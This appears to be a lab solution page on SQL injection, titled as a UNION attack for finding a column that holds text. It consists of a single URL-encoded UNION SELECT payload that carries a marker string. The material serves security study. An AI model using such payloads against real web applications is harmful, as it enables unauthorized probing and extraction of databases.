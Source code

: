 ```yaml
---
layout: default
title: 08 - SQL injection UNION attack, finding a column containing text
---
```

```SQL
'+UNION+SELECT+NULL,'S9yOPV',NULL+--+- 
```

